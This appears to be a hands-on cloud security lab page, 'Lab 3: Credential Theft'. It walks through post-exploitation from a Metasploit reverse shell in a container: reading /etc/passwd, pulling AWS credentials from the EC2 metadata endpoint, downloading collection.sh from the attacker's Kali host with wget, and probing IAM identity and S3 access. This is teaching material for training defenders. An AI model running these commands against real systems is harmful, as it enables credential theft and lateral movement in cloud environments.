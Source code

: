 ```yaml
---
title: "Lab 3: Credential Theft"
weight: 4
---
```


With root access to the container, we will set out to achieve our main objectives, data exfiltration and lateral movement. E-Crime adversaries often prioritize credential theft as a revenue generation strategy. Credentials are sold on the dark web to assist other adversaries in establishing quick and stealthy access to specific target organizations. In general though, credential access is a way to establish persistence and widen the attack.

With reverse shell root access, we can run a couple of simple commands starting with a list of local passwords.

```shell
cat /etc/passwd
```

Next, we’ll try to access EC2 instance metadata to try to capture AWS service credentials.

```shell
curl http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
```

::alert[If your Metasploit session closes unexpectedly, type “run -j” at the metasploit console prompt to reconnect to the target.]{header="Note"}

![Contents of /etc/passwd and instance metadata](/static/img/lab3-1.png)

**Lateral Movement**

We will continue our attack by downloading some additional scripts that we can use to gather more information from the compromised container.

::alert[Using the netstat utility, you can easily find the Kali public IP by listing established HTTPS connections originating from the container.]{header="Note"}

List established outbound connections to port 443 (HTTPS)

```shell
netstat -n | grep 443
```

![Netstat output](/static/img/lab3-2.png)

_The public IP in the fifth column is the Kali IP. Strip the “:443” socket port._

_Use the Kali’s public IP stored earlier or from the netstat command above, and download the collection.sh script_

```shell
wget http://<<Kali Public IP>>/collection.sh
```

![Download the collection script](/static/img/lab3-3.png)

Having gained an initial foothold in the network, attackers will then attempt to perform privilege escalation in order to move laterally to find more valuable assets.

_Further reading: You can learn about different AWS privilege escalation methods at_ https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/ .

We can begin to determine which other AWS services and infrastructure we can access via the AWS API by examining the IAM identity associated with the compromised container. Earlier, we speculated that AWS cli tools might be installed on the container which is not a recommended practice. We can confirm that.

Identify the AWS identity principal attached to the container

```shell
aws sts get-caller-identity
```

![Discover the identity principal](/static/img/lab3-4.png)

In the IAM role (shown in the “Arn” field) we have a clue about which services we are allowed to access (i.e., “Pod S3 Access”).

Confirm access to S3 by listing the buckets

```shell
aws s3 ls
```

![Listing S3 contents](/static/img/lab3-5.png)

::alert[If your Metasploit session closes unexpectedly, type `run -j` at the metasploit console prompt to reconnect to the target.]{header="Note"}
